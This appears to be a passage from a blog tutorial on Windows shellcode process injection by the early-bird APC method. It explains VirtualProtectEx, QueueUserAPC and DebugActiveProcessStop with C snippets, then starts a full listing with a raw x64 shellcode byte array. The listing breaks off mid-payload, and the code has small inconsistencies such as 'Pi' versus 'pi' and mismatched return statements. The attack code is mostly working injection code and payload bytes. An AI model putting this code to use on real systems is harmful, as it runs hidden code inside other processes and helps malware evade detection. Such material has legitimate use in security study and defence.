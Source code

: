 After writing the payload into the buffer, we need to make the change on the permission of the memory to execute the payload which is done via **[VirtualProtextEx](https://nirajkharel.com.np/posts/process-injection-shellcode-queuUserApc/#virtualprotectex)**
```c
if (!VirtualProtectEx(hProcess, lpAlloc, dwSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
	printf("Failed to change memory protection from RW to RX: %d \n", GetLastError());
	return FALSE;
}
```

## QueueUserAPC
At this point, the process is paused in a debug state, with shellcode already written into its allocated memory. Each thread in a process has an APC (Asynchronous Procedure Call) queue. By using **[QueueUserAPC](https://nirajkharel.com.np/posts/process-injection-shellcode-queuUserApc/#queueuserapc)**, we queue our shellcode to the target thread’s APC queue. When the debugger detaches and the process resumes, the system executes the queued shellcode before the thread’s original code, effectively hijacking execution flow.

The QueueUserAPC method contains three arguments which are **pfnAPC**, **hThread** and **dwData**. The argument **dwData** is not important as we are not passing any additional parameter to the function, it can be configured as NULL. The parameter **pfaAPC** provides pointer to the APC function, we would be passing **lpAlloc** as the function to be executed when the thread is resumed and **hThread** is a handle to the thread to which the APC will be queued.
```c
DWORD dQueueAPC = QueueUserAPC((PTHREAD_START_ROUTINE) lpAlloc, pi.hThread, NULL);
if (dQueueAPC == 0) {
    printf("\nError Queueing APC: %d", GetLastError());
    return;
}
```

## Detach the Debugger Process
Now, once we have our APC function queued on our thread, the next step is to detach the debugger process from the remote process so that the remote process can resume its execution. This can be done using **DebugActiveProcessStop** method and contains a single parameter **dwProcessId** which is the process Id of the remote process.
```c
DebugActiveProcessStop(Pi.dwProcessId);

// Close the handle once the program is exited
printf("Press Enter to Quit...");
getchar();
CloseHandle(hProcess);
CloseHandle(hThread);
```
Which makes our full code as:
```c
#include <Windows.h>
#include <stdio.h>

// payload
unsigned char Payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x8b\x48\x18\x44\x8b\x40\x20\x50\x49"
"\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
```